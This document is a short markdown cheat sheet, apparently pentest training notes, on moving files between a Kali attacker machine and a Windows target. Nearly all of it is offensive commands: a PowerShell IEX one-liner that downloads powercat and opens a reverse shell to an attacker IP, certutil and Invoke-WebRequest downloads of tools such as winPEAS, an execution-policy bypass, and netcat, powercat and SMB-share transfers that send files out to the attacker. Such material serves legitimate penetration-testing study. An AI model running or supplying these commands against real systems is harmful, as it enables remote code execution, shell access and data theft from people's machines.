 
#### CMD

`certutil -urlcache -split -f "http://ip/file" file` - download remote file from attacker

`powershell -FILE "file.ps1"` - execute file from cmd using powershell.

`powershell -ExecutionPolicy Bypass -File "C:\Scripts\MyScript.ps1"` - attempt to bypass execution policy and execute script.

#### PowerShell

methods used to download powercat.ps1 from attacker:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://ip/powercat.ps1","C:\path\powercat.ps1")
```

`nc -lnvp 443 > notes.txt` - run on attacking machine

`powercat -c 192.168.1.3 -p 443 -i notes.txt` - run on target machine to transfer files

`iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe` - shorthand for Invoke-WebRequest, downloads file from remote server

### Kali

`smbclient //192.168.223.195/share -c 'put config.Library-ms'` - transfer file via smbclient from kali to windows share.

##### host smb server on kali

1. `impacket-smbserver share $(pwd) -smb2support -user kali -password kali` host smb server on kali machine - USE ROOT TERMINAL

2. `net use \\kali-ip\share /u:username password` - use share on windows machine - this allows the windows machine to interact with the share on the kali box

3. `copy file.txt \\kali-ip\share\file.txt` - send file to kali smb share from windows poweshell/cmd

##### host apache2 webserver

`sudo systemctl start apache2` - start apache webserver

`sudo cp /file/to/share /var/www/html/` - host the file

